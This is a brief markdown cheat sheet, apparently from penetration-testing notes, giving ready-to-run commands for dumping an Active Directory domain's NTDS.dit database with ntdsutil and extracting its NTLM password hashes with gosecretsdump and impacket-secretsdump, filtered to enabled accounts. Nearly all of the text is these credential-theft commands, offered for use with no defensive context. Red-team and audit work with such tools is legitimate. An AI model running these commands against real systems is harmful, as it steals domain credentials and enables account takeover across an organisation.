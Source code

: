 # NTDS.dit Dump
## [ntdsutil](https://github.com/clr2of8/DPAT)
```sh
ntdsutil "ac in ntds" "ifm" "cr fu c:\temp" q q
```

# NTDS.dit Extract
## [gosecretsdump](https://github.com/C-Sto/gosecretsdump)
```sh
gosecretsdump -enabled -noprint -ntds [ntds.dit] -system [SYSTEM] -out [ntlm.domain.txt]
```

## [secretsdump](/Tools/impacket.md)
```sh
impacket-secretsdump -user-status -system [SYSTEM] -ntds [ntds.dit] LOCAL | grep '(status=Enabled)' | sed 's/(status\=Enabled)//'
```
